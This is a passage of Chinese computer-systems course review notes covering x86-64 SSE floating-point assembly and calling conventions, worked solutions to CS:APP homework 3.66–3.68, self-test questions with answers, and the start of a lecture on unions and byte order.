这种做法的影响是双面的：节省空间的责任落在程序员身上，粗心的字段顺序会浪费内存（2（3）的例子浪费了 40%），在大数组或大量对象中这会显著增加内存占用和缓存缺失；好处是布局可预测，便于调试、序列化和跨语言调用。作为对照，Rust 默认（repr(Rust)）允许编译器重排字段以减少填充，需要与 C 交互时用 #[repr(C)] 强制按声明顺序；Go、C++（对同一访问控制级别的成员）则与 C 一样按声明顺序布局。
研讨题（附加）：浮点数的机器级编程#
附加（1）基于课件第 39 页，解读这三条指令的功能操作和对寄存器的使用，解释这些指令的后缀的含义（ss/ps/sd）。重点分析 SIMD 操作和之前学过的整形指令操作的不同。
| 指令 | 后缀含义 | 功能 | 对 %xmm1 的影响 |
|---|---|---|---|
addss %xmm0, %xmm1 | s = scalar 标量，s = single 单精度 | 最低 32 位的一个 float 相加：%xmm1[31:0] += %xmm0[31:0] | 只改最低 32 位，高 96 位保持不变 |
addps %xmm0, %xmm1 | p = packed 打包，s = single | 4 个 float 分别相加：%xmm1[k] += %xmm0[k]，k = 0~3 | 128 位全部更新 |
addsd %xmm0, %xmm1 | s = scalar，d = double 双精度 | 最低 64 位的一个 double 相加 | 只改最低 64 位，高 64 位保持不变 |
三条指令都是 AT&T 格式的“源, 目的”，目的寄存器同时作为第二个源操作数（D ← D + S）。SIMD 与之前学过的整数指令的不同之处：
| 方面 | 整数指令（如 addq） | SSE 浮点 / SIMD 指令（如 addps） |
|---|---|---|
| 寄存器 | 16 个 64 位通用寄存器 %rax…%r15 | 另一组 16 个 128 位 XMM 寄存器，与通用寄存器相互独立 |
| 一条指令处理的数据 | 1 个数据 | 标量形式 1 个；打包形式可并行处理 4 个 float / 2 个 double（AVX 的 256 位 YMM 可处理 8 个 float） |
| 数据宽度的表示 | 后缀 b/w/l/q 表示 1/2/4/8 字节 | 后缀 ss/sd/ps/pd 表示标量或打包、单精度或双精度 |
| 各部分之间的关系 | 64 位作为一个整体，低位向高位进位 | 各通道（lane）彼此独立，没有进位，也互不影响 |
| 条件码 | 算术指令设置 CF、ZF、SF、OF | 算术指令不设置条件码；比较要用专门的 ucomiss/ucomisd |
| 立即数 | 可用 $常数 | 不能用立即数，常数要从内存读入 |
| 寻址 | 可用复杂寻址模式访问内存 | 源操作数也可以是内存（如 mulsd (%rsi,%rax,8),%xmm1），但打包指令的内存操作数通常要求 16 字节对齐 |
| 异常与舍入 | 溢出时静默回绕（除法除 0 例外） | 溢出得到 ∞，无效运算得到 NaN；舍入方式、异常屏蔽由 MXCSR 控制寄存器决定（第 3 讲浮点数） |
SIMD 的价值在于数据级并行：对数组做相同运算时（如图像处理、矩阵运算），一条 addps 完成 4 次加法。gcc 在 -O3（或 -O2 起的部分版本）下会自动把简单循环向量化，第 13 讲（程序优化）会再次涉及。
附加（2）基于课件第 40 页，逐行逐个关键元素讲解汇编语言代码，并和 C 语言代码对应。对照之前学过的 ABI 规定，分析浮点相关规定有哪些差异。
| 汇编 | 关键元素 | 对应 C |
|---|---|---|
| （fadd 入口） | 第 1 个浮点参数 x 在 %xmm0（低 32 位），第 2 个 y 在 %xmm1 | float fadd(float x, float y) |
addss %xmm1, %xmm0 | %xmm0 低 32 位 = x + y；结果恰好留在返回值寄存器 %xmm0 中，不需要再 mov | return x + y; |
ret | 返回值在 %xmm0 | |
| （dadd 入口） | x 在 %xmm0（低 64 位），y 在 %xmm1 | double dadd(double x, double y) |
addsd %xmm1, %xmm0 | 双精度标量加法 | return x + y; |
ret |
对比第 6 讲的整数 ABI，浮点相关的规定有以下差异：
| 方面 | 整数与指针 | 浮点（float、double） |
|---|---|---|
| 参数寄存器 | 6 个：%rdi、%rsi、%rdx、%rcx、%r8、%r9 | 8 个：%xmm0～%xmm7；超出的部分同样放在栈上 |
| 返回值 | %rax | %xmm0 |
| 保存约定 | %rbx、%rbp、%r12～%r15 由被调用者保存 | 所有 XMM 寄存器都由调用者保存（Windows x64 不同：%xmm6～%xmm15 由被调用者保存） |
| 混合参数 | 整数和指针参数按出现顺序依次占用 %rdi、%rsi……，遇到浮点参数时跳过、不占位置 | 浮点参数按出现顺序依次占用 %xmm0、%xmm1……；例：f(int a, double b, long c, float d) 中 a→%edi、c→%rsi，b→%xmm0、d→%xmm1 |
| 可变参数函数 | — | 调用 printf 等可变参数函数时，%al 中要放用到的 XMM 寄存器个数（上限）；float 实参会被提升为 double |
| 数据传送 | mov 系列 | movss/movsd（内存↔寄存器），movaps/movapd（寄存器↔寄存器） |
Windows x64 的差异更大：它不分整数与浮点，按参数位置分配寄存器——第 1 个参数用 %rcx 或 %xmm0，第 2 个用 %rdx 或 %xmm1，依此类推，总共只有 4 个参数寄存器。
附加（3）基于课件第 41 页，逐行逐个关键元素讲解汇编语言代码，并和 C 语言代码对应。解释每个浮点指令的含义，分析参数中混合了整形数、浮点数、指针的情况。
| 汇编（p.41） | 指令含义 | 对应 C |
|---|---|---|
| （入口） | p 是指针，按整数规则放在 %rdi；v 是 double，按浮点规则放在 %xmm0（虽然它是第 2 个参数，但却是第 1 个浮点参数） | double dincr(double *p, double v) |
movapd %xmm0, %xmm1 | move aligned packed double：在 XMM 寄存器之间复制全部 128 位；这里只关心低 64 位 | 复制 v（因为 %xmm0 稍后要存放返回值 x） |
movsd (%rdi), %xmm0 | move scalar double：从内存读 8 字节到 %xmm0 的低 64 位（从内存读入时高 64 位清零）；%rdi 作为地址使用 | double x = *p; |
addsd %xmm0, %xmm1 | %xmm1 = v + x（标量双精度加法） | t = x + v |
movsd %xmm1, (%rdi) | 把 %xmm1 的低 8 字节写入内存 | *p = t; |
ret | 返回值 x 已在 %xmm0 | return x; |
混合参数有几个要点：指针是整数，无论它指向什么类型（double * 也一样），都用通用寄存器传递，用整数寻址模式访问内存；浮点值才放 XMM 寄存器。指令中“地址”永远来自通用寄存器（(%rdi)），“数据”可以在 XMM 寄存器中——这正是 p.41 的 “Integer (and pointer) arguments passed in regular registers; FP values passed in XMM registers”。gcc 13 的实测版本把 x 读到 %xmm1、在 %xmm0 中算 v + x，最后用 movapd 把 x 移回 %xmm0，只是寄存器分工不同（7.8 节）。
附加（4）写一个比课件第 41 页更复杂的混合型程序，用适当的编译选项，转换成课件中类似风格的汇编代码，并予以解读。
为此设计两个函数：clamp_avg 混合了 long、int *、double *、float * 和 double 参数，包含循环、int/float 到 double 的转换、浮点比较和条件分支；scaled 在浮点值跨越函数调用时展示“XMM 都是调用者保存”的后果。编译命令为 gcc -Og -S -fno-pie -fno-asynchronous-unwind-tables -fcf-protection=none fp.c（去掉 .cfi 伪指令和 endbr64，使风格与课件一致）。
double g(double);
double clamp_avg(long n, const double *a, const float *w, int *over, double limit)
{
double s = 0.0;
for (long i = 0; i < n; i++)
s += a[i] * w[i]; /* float 先转换为 double 再相乘 */
if (s > limit) {
(*over)++;
s = limit;
}
return s / n; /* long 转换为 double */
}
double scaled(double x, int k, float f)
{
double t = g(x); /* x、k、f 在调用之后还要用 */
return t * k + f + x;
}clamp_avg: # n:%rdi a:%rsi w:%rdx over:%rcx limit:%xmm0
movl $0, %eax # i = 0
pxor %xmm2, %xmm2 # s = 0.0（异或清零）
jmp .L2
.L3:
pxor %xmm1, %xmm1 # 清零，打断对 %xmm1 旧值的依赖
cvtss2sd (%rdx,%rax,4), %xmm1 # %xmm1 = (double) w[i]
mulsd (%rsi,%rax,8), %xmm1 # %xmm1 *= a[i]（内存作源操作数）
addsd %xmm1, %xmm2 # s += a[i] * w[i]
addq $1, %rax # i++
.L2:
cmpq %rdi, %rax # i : n（整数比较，有符号）
jl .L3
comisd %xmm0, %xmm2 # 比较 s : limit，设置 ZF/PF/CF
jbe .L4 # s <= limit 或无序（NaN）则跳过
movl (%rcx), %eax # (*over)++
addl $1, %eax
movl %eax, (%rcx)
movapd %xmm0, %xmm2 # s = limit
.L4:
pxor %xmm0, %xmm0
cvtsi2sdq %rdi, %xmm0 # %xmm0 = (double) n（q：源是 64 位整数）
divsd %xmm0, %xmm2 # s = s / n
movapd %xmm2, %xmm0 # 返回值放入 %xmm0
ret下面解读 clamp_avg 的汇编：（1）五个参数分属两类，n、a、w、over 是整数或指针，依次占用 %rdi、%rsi、%rdx、%rcx；limit 是第 5 个参数，却是第 1 个浮点参数，放在 %xmm0。（2）地址计算全部用通用寄存器，a[i] 和 w[i] 的地址分别用比例因子 8 和 4，与整数数组完全相同，只是读出的数据进入 XMM 寄存器。（3）类型转换用 cvt（convert）指令，cvtss2sd 把单精度转为双精度，cvtsi2sdq 把 64 位有符号整数转为双精度；转换前的 pxor 清零是为了消除对目的寄存器旧值的“假依赖”（cvt 指令只写低位），是性能上的考虑。（4）比较与分支用 comisd：comisd %xmm0,%xmm2 比较 s 与 limit，按表 5 设置条件码；jbe 在 CF = 1 或 ZF = 1 时跳转，即 s < limit、s = limit 或无序时都跳过 if 体，恰好与 C 语义一致——NaN 参与的 s > limit 为假。gcc 这里用了 comisd 而不是课件提到的 ucomisd，二者设置条件码的方式相同，区别只在于遇到 QNaN 时 comisd 会报告浮点无效异常（> 和 < 比较按 IEEE 754 本就应报告）。（5）循环控制、(*over)++ 仍是普通整数指令，两套寄存器在同一个函数中各司其职。
scaled: # x:%xmm0 k:%edi f:%xmm1
pushq %rbx # 要用被调用者保存的 %rbx，先保存
subq $16, %rsp # 为 x、f 分配栈空间，并使 call 时 %rsp 对齐
movl %edi, %ebx # k 存入 %rbx：整数可以放在被调用者保存寄存器中
movss %xmm1, 12(%rsp) # f 存到栈上：XMM 都是调用者保存的
movsd %xmm0, (%rsp) # x 存到栈上（它也已在 %xmm0 中，作 g 的参数）
call g # t = g(x)，结果在 %xmm0
movapd %xmm0, %xmm1 # %xmm1 = t
pxor %xmm0, %xmm0
cvtsi2sdl %ebx, %xmm0 # (double) k（l：源是 32 位整数）
mulsd %xmm0, %xmm1 # t * k
pxor %xmm0, %xmm0
cvtss2sd 12(%rsp), %xmm0 # (double) f，直接从栈上读
addsd %xmm1, %xmm0 # t*k + f
addsd (%rsp), %xmm0 # + x，直接从栈上读
addq $16, %rsp
popq %rbx
ret解读 scaled：它把第 6 讲的寄存器保存约定和本讲的浮点约定放在一起对照。三个值 x、k、f 都要在调用 g 之后使用：整数 k 可以放进被调用者保存的 %rbx（代价是在开头和结尾 push/pop %rbx）；而 x 和 f 是浮点数，System V ABI 中没有被调用者保存的 XMM 寄存器，只能存到栈上，调用后再从内存读回（cvtss2sd 12(%rsp)、addsd (%rsp) 直接以内存为源操作数）。栈空间的大小也满足第 6 讲的对齐要求：入口处 %rsp ≡ 8 (mod 16)，push 后 ≡ 0，再减 16 仍 ≡ 0，call 时对齐。表达式 t * k + f + x 中的 int 和 float 都按 C 的“寻常算术转换”先转为 double（cvtsi2sdl、cvtss2sd），再做双精度运算，这也是为什么最后返回 double。
第三部分 作业题解答：3.66、3.67、3.68#
作业题来自教材第 3 章家庭作业（中文版 P221、P221、P223；英文版题号相同），第 6 讲没有单独的作业，并入本讲。所有答案均用 gcc 编译或程序搜索验证。下面给出完整解答。
3.66 从汇编反推二维数组的维数#
题目long sum_col(long n, long A[NR(n)][NC(n)], long j) 计算 A 第 j 列元素之和（i 从 0 到 NR(n) − 1 累加 A[i][j]），NR 和 NC 是用 #define 定义的关于 n 的宏。根据 gcc 生成的汇编代码，确定 NR 和 NC 的定义。
sum_col: # n in %rdi, A in %rsi, j in %rdx
leaq 1(,%rdi,4), %r8 # %r8 = 4n + 1
leaq (%rdi,%rdi,2), %rax # %rax = 3n
movq %rax, %rdi # %rdi = 3n -> 循环上界 NR(n)
testq %rax, %rax
jle .L4 # 3n <= 0 则直接返回 0
salq $3, %r8 # %r8 = 8(4n + 1) -> 一行的字节数
leaq (%rsi,%rdx,8), %rcx # %rcx = A + 8j = &A[0][j]
movl $0, %eax # result = 0
movl $0, %edx # i = 0
.L3:
addq (%rcx), %rax # result += A[i][j]
addq $1, %rdx # i++
addq %r8, %rcx # 指针前进一行：&A[i+1][j]
cmpq %rdi, %rdx # i : 3n
jne .L3
rep; ret
.L4:
movl $0, %eax
ret先分析这段汇编：循环变量 i 在 %rdx 中，从 0 开始，每次加 1，与 %rdi 比较，而 %rdi = 3n，所以循环次数 NR(n) = 3n。编译器把 A[i][j] 的地址计算化简成了指针递增：%rcx 初值为 &A[0][j] = A + 8j，每次加上 %r8。从 A[i][j] 到 A[i+1][j] 相差一整行，即 字节，而 %r8 = 8(4n + 1)，所以 NC(n) = 4n + 1。
#define NR(n) (3 * (n))
#define NC(n) (4 * (n) + 1)最后验证一下：用这两个定义编译，gcc 13 -O1 生成的代码结构与题目完全一致（leaq 1(,%rdi,4),%r8、salq $3,%r8、leaq (%rsi,%rdx,8),%rdx、每次 addq %r8,%rdx），只是寄存器分配略有不同；-Og 下则保留了 imulq 每次计算 i·NC(n)。注意宏定义中的括号：若写成 #define NR(n) 3*n，调用 NR(n+1) 时会展开成 3*n+1，这是宏的经典陷阱。
3.67 结构体作为参数和返回值#
题目strA 含 long a[2]; long *p;（24 字节），strB 含 long u[2]; long q;（24 字节）。strB process(strA s) 令 r.u[0] = s.a[1]、r.u[1] = s.a[0]、r.q = *s.p；long eval(long x, long y, long z) 构造 s = {x, y, &z}，调用 r = process(s)，返回 r.u[0] + r.u[1] + r.q。根据 gcc 生成的代码回答 A～F。
process: eval: # x in %rdi, y in %rsi, z in %rdx
movq %rdi, %rax subq $104, %rsp
movq 24(%rsp), %rdx movq %rdx, 24(%rsp) # z 存到 rsp+24
movq (%rdx), %rdx leaq 24(%rsp), %rax # &z
movq 16(%rsp), %rcx movq %rdi, (%rsp) # s.a[0] = x
movq %rcx, (%rdi) movq %rsi, 8(%rsp) # s.a[1] = y
movq 8(%rsp), %rcx movq %rax, 16(%rsp) # s.p = &z
movq %rcx, 8(%rdi) leaq 64(%rsp), %rdi # 隐藏参数：r 的地址
movq %rdx, 16(%rdi) call process
ret movq 72(%rsp), %rax # r.u[1]
addq 64(%rsp), %rax # + r.u[0]
addq 80(%rsp), %rax # + r.q
addq $104, %rsp
ret
图 14 3.67：eval 的栈帧（rsp 指 eval 中 subq 之后的 %rsp）
| 问 | 解答 |
|---|---|
| A | eval 分配 104 字节后，在调用 process 前存入：rsp+0 = x（s.a[0]），rsp+8 = y（s.a[1]），rsp+16 = &z（s.p，值为 rsp+24），rsp+24 = z。rsp+0～23 这 24 字节就是按值传递的结构体 s；rsp+104 处是 eval 自己的返回地址（图 14）。 |
| B | eval 在 %rdi 中传入 rsp+64，即 eval 为返回值 r 预留的 24 字节空间的地址。process 的 C 声明只有一个参数 s，这个地址是编译器添加的隐藏参数。 |
| C | call 压入返回地址后，process 中的 %rsp 比 eval 中的小 8，所以 s.a[0]、s.a[1]、s.p 分别位于 process 的 8(%rsp)、16(%rsp)、24(%rsp)。process 直接通过 %rsp 加偏移读取栈上的结构体（movq 24(%rsp),%rdx 取 s.p，再 movq (%rdx),%rdx 取 *s.p）。 |
| D | process 通过隐藏参数 %rdi 指向的空间写结果：(%rdi) = r.u[0] = s.a[1]，8(%rdi) = r.u[1] = s.a[0]，16(%rdi) = r.q = *s.p；最后把这个地址同时放入 %rax 返回（第一条 movq %rdi,%rax）。 |
| E | 返回后 r 位于 eval 的 rsp+64～87：rsp+64 = r.u[0] = y，rsp+72 = r.u[1] = x，rsp+80 = r.q = z。eval 用 72(%rsp)、64(%rsp)、80(%rsp) 读出三者相加（图 14 上半部分）。 |
| F | 大结构体（超过 16 字节）按值传参时，调用者把整个结构体复制到栈上的参数区（相当于第 7 个及以后的参数），被调用者通过 %rsp + 偏移访问；返回大结构体时，调用者预先分配空间，把地址作为隐藏的第一个参数放在 %rdi 中传入，被调用者把结果写到那里，并在 %rax 中返回该地址。因此按值传递/返回大结构体都需要复制整个结构体，效率不如传指针。 |
这里补充说明一点：System V ABI 规定不超过 16 字节的结构体可以拆开放在寄存器中传递和返回（如两个 long 的结构体用 %rax、%rdx 返回），本题两个结构体都是 24 字节，所以走内存。另外，用 gcc 13 -Og 重新编译时，eval 先 subq $88 分配局部变量区，调用前再 subq $32 开辟参数区（共 120 字节），并用 movdqa/movups 等 SSE 指令一次复制 16 字节，栈布局与教材不同，但传递方式（栈上传 s、%rdi 传隐藏指针、%rax 返回该指针）完全相同。
3.68 由字段偏移反推数组大小#
题目str1 含 int x[A][B]; long y;，str2 含 char array[B]; int t; short s[A]; long u;。setVal(str1 *p, str2 *q) 计算 p->y = q->t + q->u，gcc 生成 movslq 8(%rsi),%rax; addq 32(%rsi),%rax; movq %rax,184(%rdi); ret。求 A 和 B（解唯一）。
从三条指令得到三个偏移：t 在 str2 中偏移 8，u 在 str2 中偏移 32，y 在 str1 中偏移 184。逐一转化为不等式：
| 偏移 | 布局推理 | 约束 |
|---|---|---|
| t 在 8 | array[B] 占 0～B−1；t 是 int，偏移是 B 向上取整到 4 的倍数，等于 8 | ，即 |
| u 在 32 | s 从 12 开始（t 占 8～11），占 2A 字节，结束于 12 + 2A；u 是 long，偏移是 12 + 2A 向上取整到 8 的倍数，等于 32 | ，即 |
| y 在 184 | x[A][B] 占 4AB 字节；y 是 long，偏移是 4AB 向上取整到 8 的倍数，等于 184 | ，即 |
在 B ∈ {5,…,8}、A ∈ {7,…,10} 中，满足 AB = 45 或 46 的只有 A = 9、B = 5（9 × 5 = 45；46 = 2 × 23 无法分解）。所以
最后验证一下：用 A = 9、B = 5 编译，sizeof 与 offsetof 给出 t = 8、u = 32、y = 184，gcc 生成的 setVal 与题目完全相同；再用程序枚举 A、B ∈ [1, 20] 的所有组合，只有 (9, 5) 满足三个偏移。这道题的关键在于每个偏移都给出了一个区间而非等式——“向上取整到对齐要求的倍数”把多个值映射到同一个偏移，需要把三个区间约束交叉才能确定唯一解。
第四部分 复习速查#
4.1 公式与规则一页纸#
| 项目 | 公式 / 规则 |
|---|---|
一维数组 T A[L] | 大小 ；（K = sizeof(T)） |
二维数组 T A[R][C] | 大小 ；； |
多级数组 T *A[R] | ，两次访存 |
| 指针运算 | p + n 的数值 = p + n × sizeof(*p)；A[i] ≡ *(A+i) |
| 对齐要求 K | char 1，short 2，int/float 4，long/double/指针 8，long double 16（Linux x86-64） |
| 字段偏移 | （o 为已用字节，k 为该字段对齐要求） |
| 结构体大小 | 最后字段结束处向上取整到 K = max(k)；起始地址也是 K 的倍数 |
| 节省空间 | 字段按对齐要求从大到小排列 |
| 浮点参数 / 返回值 | %xmm0～%xmm7 / %xmm0；所有 XMM 调用者保存 |
| 浮点指令后缀 | ss 标量单精度，sd 标量双精度，ps 打包单精度，pd 打包双精度 |
| 浮点比较 | (u)comiss / (u)comisd → ZF、PF、CF；用 ja/jb/jbe/jae，PF = 1 表示 NaN |
| 大结构体（> 16 字节） | 按值传参：复制到栈上；返回：调用者在 %rdi 中传隐藏指针，%rax 返回该指针 |
4.2 易错点清单#
| # | 易错点 | 正确理解 |
|---|---|---|
| 1 | A + 1 的数值是 A 加 1 | 加 sizeof(*A)；步长由指针类型决定 |
| 2 | sizeof(数组形参) 是整个数组的大小 | 形参中的数组是指针，sizeof 为 8 |
| 3 | int a[3][4] 可以传给 int ** | 类型是 int (*)[4]，不兼容 |
| 4 | 二维数组形参可以省略所有维 | 只能省略第一维，列数必须给出 |
| 5 | 嵌套数组与指针数组的访问方式一样 | C 写法一样，机器上前者 1 次访存，后者 2 次 |
| 6 | 结构体大小 = 各字段大小之和 | 还要加上内部和外部填充 |
| 7 | 结构体按第一个字段对齐 | 按所有字段中最大的对齐要求对齐 |
| 8 | 编译器会重排字段节省空间 | C 编译器严格按声明顺序，不重排 |
| 9 | 结构体数组步长 = 字段大小之和 | 步长 = sizeof(结构体)，含填充 |
| 10 | addss 改变整个 XMM 寄存器 | 只改最低 32 位；addps 才改全部 |
| 11 | 浮点参数和整数参数统一编号 | 各自独立编号：double 第 1 个参数总在 %xmm0 |
| 12 | double * 参数放在 XMM 寄存器 | 指针是整数，放在通用寄存器 |
| 13 | 有被调用者保存的 XMM 寄存器（Linux） | System V 中全部 XMM 都是调用者保存 |
| 14 | 浮点比较后用 jg/jl | 用无符号跳转 ja/jb 等 |
4.3 中英术语对照#
| English | 中文 | English | 中文 |
|---|---|---|---|
| array | 数组 | nested array | 嵌套数组 |
| multi-level array | 多级数组 | row-major / column-major | 行优先 / 列优先 |
| variable-length array (VLA) | 变长数组 | structure / field (member) | 结构体 / 字段（成员） |
| offset | 偏移 | alignment | 对齐 |
| padding (internal / external) | 填充（内部 / 外部） | union | 联合 |
| scalar | 标量 | packed | 打包 |
| SIMD | 单指令多数据 | single / double precision | 单 / 双精度 |
| XMM register | XMM 寄存器 | unordered | 无序（含 NaN） |
| out of bounds | 越界 | pointer arithmetic | 指针运算 |
| hidden pointer argument | 隐藏指针参数 | dereference | 解引用 |
第五部分 自测题#
以下题目为新编。默认 x86-64 Linux。
long a[6]; 的起始地址为 0x1000。&a[4]、a + 4、(char *)a + 4、&a + 1 的值分别是多少？
short m[5][7]; 起始地址为 x，&m[3][2] 是多少？m[3] 的类型和 sizeof 各是什么？
函数 int f(int a[][6], long i, long j) { return a[i][j]; } 的地址计算可以写成 a + 4*(6i + j)。给出一种只用 lea 和一次 mov 的汇编实现。
对 int *p[4]; 和 int (*q)[4];，分别求 sizeof(p)、sizeof(*p)、sizeof(q)、sizeof(*q)。
求 struct X { short a; double b; char c; int d; } 各字段偏移和 sizeof；重排后最小的 sizeof 是多少？
struct Y { char c[3]; struct X x; } 中 x 的偏移是多少？为什么？
struct Z { int i; char c; } z[10]; 中 &z[3].c 相对 z 的偏移是多少？
函数 double h(float a, long *b, double c, int d) 的四个参数分别在哪个寄存器？
addpd %xmm2, %xmm3 做了几次加法？结果写到哪里？
ucomisd %xmm1, %xmm0 之后，若 %xmm0 中是 NaN，ZF、PF、CF 各为多少？此时 ja 会跳转吗？
自测题答案#
&a[4] = a + 4 = 0x1000 + 32 = 0x1020；(char *)a + 4 = 0x1004；&a + 1 跨过整个数组 48 字节 = 0x1030。
；m[3] 的类型是 short[7]，sizeof 为 14。
leaq (%rsi,%rsi,2),%rax（3i）；addq %rax,%rax（6i，也可再用 lea）；addq %rdx,%rax（6i + j）；movl (%rdi,%rax,4),%eax。只用 lea 的写法：leaq (%rsi,%rsi,2),%rax; leaq (%rdx,%rax,2),%rax; movl (%rdi,%rax,4),%eax。
sizeof(p) = 32（4 个指针），sizeof(*p) = 8；sizeof(q) = 8（一个指针），sizeof(*q) = 16（int[4]）。
a 0，b 8，c 16，d 20，sizeof = 24；按 b、d、a、c 排列为 0、8、12、14，大小 15 取整到 16。
X 的对齐要求是 8（来自 double），所以 x 的偏移是 8（c[3] 之后补 5 字节），而不是按 short 的 2 对齐。
Z 的 sizeof 为 8（i 4 字节 + c 1 字节 + 3 字节填充），所以偏移为 3 × 8 + 4 = 28。
a → %xmm0，b → %rdi，c → %xmm1，d → %esi（整数与浮点各自编号）。
打包双精度需要 2 次加法（两个 double 通道），结果写回 %xmm3 的全部 128 位。
比较结果为无序时，ZF = PF = CF = 1；ja 要求 CF = 0 且 ZF = 0，所以不跳转。
—— 第 7 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 8 讲
程序的机器级表示 V：高级主题（Machine-Level Programming V: Advanced Topics）
如何使用本讲义#
本讲把前几讲的知识点收口到两个主题：联合（union）——一种让多个字段共用同一块内存、从而绕过类型系统的手段；以及内存布局与缓冲区溢出——程序在内存里怎么摆放，以及当数组越界写入时，为什么可能改掉返回地址、让程序“跳到不该去的地方”，又有哪些防御手段。缓冲区溢出是本讲的重点，也是理解 Attack Lab 的基础。讲义中内存图统一按“高地址在上、低地址在下”绘制，栈向下增长。
表 1 第 8 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| 联合（p.3–4） | union 怎样分配内存；怎样用它查看位模式 | 8.1 |
| 字节序（p.5–10） | 大端/小端；用 union 逐字节观察多字节数据 | 8.2 |
| 复合类型小结（p.11） | 数组、结构体、联合三者的对比 | 8.3 |
| 内存布局（p.13–16） | 栈/堆/数据/代码各段的位置；栈溢出 | 8.4 |
| 越界与缓冲区溢出（p.18–28） | 越界写为什么能改返回地址；栈粉碎 | 8.5 |
| 防御（p.40–47） | 避免漏洞、系统级防护、栈金丝雀 | 8.6 |
| ROP（p.48–53，拓展） | 随机化+不可执行栈之后，攻击者怎么办 | 8.7 |
第一部分 第 8 讲知识点：高级主题#
8.1 联合（union）（课件 p.3–4）#
联合与结构体的声明语法相同，但语义相反：结构体把各字段依次排开，联合让各字段从同一个起始地址开始、互相重叠。因此联合的大小等于最大字段的大小（再按对齐要求向上取整），而不是各字段之和。任何时刻只能有意义地使用其中一个字段——写了一个字段再读另一个字段，读到的是同一块字节的另一种解释。

图 1 union U1 与 struct S1 的对比（字段 char c、int i[2]、double v）
以课件 p.3 的例子，union U1 { char c; int i[2]; double v; } 的大小是 8（double 占 8 字节，c 和 i[2] 都落在这 8 字节之内）；而 struct S1 { char c; int i[2]; double v; } 的大小是 24（c 后补 3 字节使 i 对齐到 4，i[2] 占 8 字节到偏移 12，v 要 8 对齐所以补 4 字节放到 16，共 24）。两者已用程序验证。
联合最常见的用途是查看一个值的位模式（课件 p.4）。把同一块内存一次当作 float、一次当作 unsigned，就能读出浮点数的二进制编码：
typedef union { float f; unsigned u; } bit_float_t;
float bit2float(unsigned u) unsigned float2bit(float f)
{ {
bit_float_t arg; bit_float_t arg;
arg.u = u; arg.f = f;
return arg.f; return arg.u;
} }关键是要把它和强制类型转换区分开。bit2float(u) 把 u 的 32 个二进制位原封不动地重新解释成 float，和 (float) u（按数值转换，1 变成 1.0 的编码 0x3F800000）完全不同；float2bit(f) 得到 f 的编码位模式，和 (unsigned) f（按数值截断取整）也不同。例如 bit2float(1) 得到的是最小的非规格化数 ，而 (float)1u 就是 1.0。这正是 2025 年阶段测验第 22 题、以及往年期中大量“用 union 读浮点位模式”题目的原理。
常见问题：联合的大小一定等于最大字段的大小吗？写一个字段再读另一个字段是否合法？
不一定，还要按对齐要求取整。联合的对齐要求是各字段对齐要求的最大值，大小必须是它的倍数。实测：union { char c[5]; int i; } 的最大字段为 5 字节，但 int 要求 4 字节对齐，所以大小取整为 8；union { char c[9]; double d; } 的大小为 16；union { char c; short s; } 的大小为 2。这样做的理由与 7.7 节结构体末尾填充相同：保证联合数组中每个元素的每个字段都对齐。
关于第二个问题，C 标准（C99 起；C11 6.5.2.3 的脚注）允许通过联合写一个成员、再读另一个成员，读到的是同一段字节按新类型的重新解释，这正是 bit2float、float2bit 的原理，x86-64 上 float2bit(1.0f) 实测为 0x3F800000。但结果依赖于具体的表示方式（字节序、浮点格式），程序不可移植；当读的成员比写入的成员长时，多出来的那些字节的值是未指定的。另外，C++ 中这种用法属于未定义行为，C++ 程序应改用 memcpy。
8.2 字节序与用联合观察（课件 p.5–10）#
一个多字节的数（short/int/long 占 2/4/8 个连续字节）在内存里，哪个字节放在低地址，这就是字节序：
表 2 课件 p.5：三种字节序规则与代表平台
| 字节序 | 规则 | 代表平台 |
|---|---|---|
